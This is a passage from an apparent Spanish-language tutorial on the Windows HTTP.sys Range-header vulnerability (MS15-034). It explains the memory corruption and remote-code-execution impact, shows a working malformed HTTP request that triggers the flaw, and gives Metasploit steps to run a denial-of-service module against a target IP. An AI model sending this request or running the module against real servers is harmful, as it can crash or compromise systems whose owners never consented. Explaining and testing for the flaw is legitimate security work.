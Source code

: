 Por ejemplo:

```bash
GET / HTTP/1.1
Host: servidor-objetivo
Range: bytes=0-18446744073709551615
```

2. **Corrupción de Memoria**: Cuando el controlador HTTP.sys procesa este encabezado `Range` malformado, se produce una corrupción de memoria, lo que lleva a desbordamientos de búfer u otros problemas relacionados con la memoria.

3. **Ejecución Remota de Código**: Gracias al desbordamiento de búfer, el atacante puede tomar el control del flujo de ejecución de la memoria. Esto permite ejecutar código arbitrario con privilegios SYSTEM.

4. **Compromiso del Sistema**: Una vez que el atacante obtiene privilegios de SYSTEM, puede instalar programas maliciosos, robar información sensible, manipular datos o continuar explotando el sistema.

## Impacto de la Vulnerabilidad
- **Ejecución Remota de Código**: El atacante puede tomar control completo del servidor afectado sin necesidad de autenticarse previamente.
- **Escalación de Privilegios**: Dado que **HTTP.sys** se ejecuta en modo kernel, explotar esta vulnerabilidad otorga privilegios de SYSTEM, el nivel más alto de privilegios en un sistema Windows.
- **Superficie de Ataque Amplia**: Cualquier sistema Windows que use IIS o servicios que utilicen **HTTP.sys** es vulnerable si acepta solicitudes HTTP.

# Uso del Módulo de Metasploit `auxiliary/dos/http/ms15_034_ulonglongadd`
Para aprovechar esta vulnerabilidad, Metasploit ofrece un módulo específico que puedes utilizar para probar la presencia de esta vulnerabilidad en un servidor. El módulo que debes usar es el siguiente:

```bash
use auxiliary/dos/http/ms15_034_ulonglongadd
```

### Configuración del Módulo
1. **Cargar el módulo**: Abre Metasploit y carga el módulo con el comando:

```bash
use auxiliary/dos/http/ms15_034_ulonglongadd
```

2. **Configurar la dirección IP del objetivo**: Una vez cargado, configura el objetivo con el siguiente comando:

```bash
set RHOST ip address
```

3. **Ejecutar el ataque**: Ejecuta el módulo para comprobar si el servidor es vulnerable:

```bash
run
```

